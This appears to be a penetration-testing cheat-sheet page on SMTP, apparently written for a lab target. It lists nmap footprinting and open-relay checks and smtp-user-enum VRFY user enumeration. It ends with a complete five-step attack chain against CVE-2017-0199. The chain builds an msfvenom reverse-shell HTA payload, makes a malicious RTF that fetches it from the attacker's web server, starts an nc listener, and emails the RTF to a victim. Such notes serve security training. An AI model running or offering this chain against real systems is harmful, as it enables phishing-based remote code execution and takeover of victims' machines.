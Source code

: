 # Simple Mail Transfer Protocol

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Footprinting The Service

### **Nmap**

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -sC -sV -p25
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Nmap - Open Relay**

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Enumerate users

Response codes from smtp servers may vary example code 250 & 252 is considered a valid user and smtp-user-enum checks only for 250

Without Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP
```

With Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP -d example.com
```

#### [RTF Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2017-0199)

1. msfvenom -p windows/shell\_reverse\_tcp LHOST=local-IP LPORT=443 -f hta-psh -o msfv.hta
2. python2 cve-2017-0199\_toolkit.py -M gen -t RTF -w MailFile.RTF -u http://local-WebServIP:Port/msfv.hta
3. python2 -m SimpleHTTPServer 80
4. nc -lnvp 443
5. sendEmail -f FromEmail@example.com -t ToEmail@example.com -u "Subject" -m "Message" -a MailFile.RTF -s TargetIP -v
